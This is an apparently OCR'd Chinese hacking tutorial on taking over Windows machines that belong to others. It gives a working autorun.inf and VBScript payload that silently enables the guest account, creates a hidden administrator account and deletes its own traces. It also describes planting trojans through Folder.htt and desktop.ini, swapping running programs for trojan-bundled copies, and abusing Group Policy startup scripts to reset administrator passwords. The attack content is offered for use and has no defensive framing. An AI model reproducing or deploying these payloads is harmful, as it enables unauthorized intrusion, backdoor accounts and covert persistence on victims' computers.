 二auto.ini 加 SHELL.VBS

Autoruninf
```
[autorun]
open=shell.vbs
shell.vbs
dim wsh
set wsh=createObject("WScript.Shell")
wsh.run "net user guest /active:yes",0
wsh.run "net user guest 520ls",0
wsh.run "net localgroup administrators guest /add",0
wsh.run "net user hkbme 520ls /add",0
wsh.run "net localgroup administrators hkbme /add",0
wsh.run "cmd.exe /c del Autoruninf",0
wsh.run "cmd.exe /c del shell.vbs",0
```
但是这样要可以访问到对方的根目录。将这两个文件放到对方硬盘的根目录下。当然你也可以直接执行木马程序，还要一个木马程序，但是语句就和最后两句一样，通过CMD执行木马程序

三Folder.htt与desktop.ini
将改写的Folder.htt与desktop.ini，还有你的木马或者是VBS或者是什么，放到对方管理员最可能浏览的目录下，觉得一个不够，可以多放几个
Folder.htt添加代码

但是后门和这两个文件必须要放到一块，有点问题，可以结合启动VBS，运行结束后，删除上传的后门.就是CODEBASE="shell.vbs".shell写法如上

四replace
替换法，可以替换正在执行的文件。用这个几乎可以马上得到权限，但是我没有做过试验，可以试下，将对方正在执行的文件替换为和它文件名一样的，捆绑了木马的。为什么不直接替换木马呢？如果替换的是关键程序，那不是就直接挂了？所以还是捆绑好点
格式
```
REPLACE [drive1:][path1]filename [drive2:][path2] [/A] [/R] [/W]
REPLACE [drive1:][path1]filename [drive2:][path2] [/R] [/S] [/W]

　[drive1:][path1]filename 指定源文件。
　[drive2:][path2] 指定要替换文件的
　　　　　　　　　　　　　 目录。
　/A 把新文件加入目标目录。不能和
　　　　　　　　　　　　　 /S 或 /U 命令行开关搭配使用。
　/P 替换文件或加入源文件之前会先提示您
　　　　　　　　　　　　　 进行确认。
　/R 替换只读文件以及未受保护的
　　　　　　　　　　　　　 文件。
　/S 替换目标目录中所有子目录的文件。
　　　　　　　　　　　　　 不能与 /A 命令选项
　　　　　　　　　　　　　 搭配使用。
　/W 等您插入磁盘以后再运行。
　/U 只会替换或更新比源文件日期早的文件。 不能与 /A 命令行开关搭配使用
```
这个命令没有试验过，看能不能替换不能访问的文件夹下的文件，大家可以试验下

五 脚本
编写一个启动/关机脚本配置文件scripts.ini，这个文件名是固定的，不能改变。内容如下：
```
[Startup]
0CmdLine=a.bat
0Parameters=
```
将文件scripts.ini保存到"C:\winnt\system32\GroupPolicy\Machine\Scripts"
A.BAT的内容可以是NET USER yonghu mima
也可以是NET USER ADMINistrator XXX
这样可以恢复你想要得任意用户名的密码，也可以自己增加新的用户，但是要依赖重启，还有就是对SYSTEM32有写的权限
